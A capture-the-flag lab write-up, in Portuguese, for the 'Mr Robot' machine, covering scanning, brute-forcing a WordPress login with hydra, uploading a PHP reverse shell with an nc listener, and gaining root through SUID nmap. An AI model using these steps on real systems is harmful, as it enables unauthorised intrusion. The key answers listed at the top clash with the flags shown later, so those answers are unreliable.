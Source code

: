 # Lab: Mr Robot (Medium Mode)

## Capture The Flags (CTF):

1. **What is key 1?** `mr. meeseek hair`
2. **What is key 2?** `1 jerry tear`
3. **What is key 3?** `fleeb juice`

---

## 1) Reconhecimento Inicial
```
export IP=10.10.200.166
```
```
nmap -A $IP
```
**Resultados:**
```
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
443/tcp open   ssl/http Apache httpd
```

---

## 2) Enumeração de Diretórios
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```
**Resultados Principais:**
- `/wp-login`  
- `/robots` → Contém `fsocity.dic` e `key-1-of-3.txt`
- `/key-1-of-3.txt` → FLAG: `073403c8a58a1f80d943455fb30724b9`

---

## 3) Análise de Wordlist
```bash
wc fsocity.dic  # Conta linhas/palavras/caracteres
```
```bash
ls -l  # Lista ficheiros e tamanhos
```
```bash
sort fsocity.dic | uniq > fsocityUniq.txt  # Ordena e remove duplicados
```

---

## 4) Ataque de Força Bruta (Burp Suite + Hydra)
```bash
wpscan --url 10.10.101.133 --passwords fsocityUniq.txt --usernames elliot
```
**Resultados:**
Username: Not Found!

```bash
hydra -L fsocityUniq.txt -p admin 10.10.200.166 http-post-form "/wp-login.php:log=^USER^&pass=^PASS^&wp-submit=LOG+In&redirect_to=http%3aA%2F%2F10.10.200.166%2Fwp-admin%2F&testcookie=1:Invalid username" -F -V
```
**Resultados:** 
Username: `elliot`

```bash
wpscan --url 10.10.101.133 --passwords fsocityUniq.txt --usernames elliot
```
**Credenciais Encontradas:**
- Username: `elliot`
- Password: `ER28-0652`

---

## 5) Reverse Shell via Editor PHP
```bash
cd /usr/share/webshells/php
```
```
cat php-reverse-shell.php > php-reverseshell.php
```
**Passos:**
1. Fazer upload do `php-reverseshell.php` no editor WordPress.
2. Iniciar listener:
```bash
nc -lnvp 9999
```
3. Aceder ao URL do ficheiro: `http://10.10.101.133/wp-content/themes/twentyfifteen/archive.php`

---

## 6) Escalada para Utilizador "robot"
```bash
whoami
cd home
cd robot
ls -l
cat password.raw-md5
```
**MD5 Encontrado:** `robot:c3fcd3d76192e4007dfb496cca67e13b`
**MD5 Descriptografado:** `abcdefghijklmnopqrstuvwxyz`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```
su robot
```
**Password:** `abcdefghijklmnopqrstuvwxyz`
```bash
cat key-2-of-3.txt
```
**FLAG:** `822c73956184f694993bede3eb39f959`

---

## 7) Escalada de Privilégios para Root
```bash
find / -user root -perm -4000 2>/dev/null  # Identificar SUID bins
```
```bash
nmap --interactive
!sh
```
**Resultados:**
```bash
whoami  # root
cd /root
ls -l
cat key-3-of-3.txt
```
**FLAG Final:** `04787ddef27c3dee1ee161b21670b4e4`
